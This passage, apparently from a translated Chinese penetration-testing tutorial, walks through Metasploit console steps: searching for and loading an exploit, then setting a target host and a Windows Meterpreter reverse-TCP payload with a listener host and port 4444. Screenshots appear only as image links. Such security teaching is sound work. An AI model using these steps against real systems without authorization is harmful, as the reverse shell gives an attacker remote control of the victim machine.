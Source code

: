 ```
        search exploit_name
```

以下截图显示了前面命令的输出：

![](img/f4b5869b-e3cb-40ff-bf45-f6c6b6def95e.png)

1.  要使用漏洞利用，我们输入：

```
        use exploits/path/to/exploit  
```

以下截图显示了前面命令的输出：

![](img/a470cc8f-a78a-45b8-a55c-673832a22eef.png)

1.  接下来，我们通过输入以下内容来查看选项：

```
        show options  
```

1.  在这里，我们需要设置有效载荷、目标 IP、本地主机和我们想要的后向连接端口。

1.  我们使用以下命令设置目标：

```
        set RHOST x.x.x.x  
```

1.  我们使用以下命令设置有效载荷：

```
 set payload windows/meterpreter/reverse_tcp  
```

1.  接下来，我们设置我们想要连接的`lhost`和`lport`：

```
 set lhost x.x.x.x
 set lport 4444
```
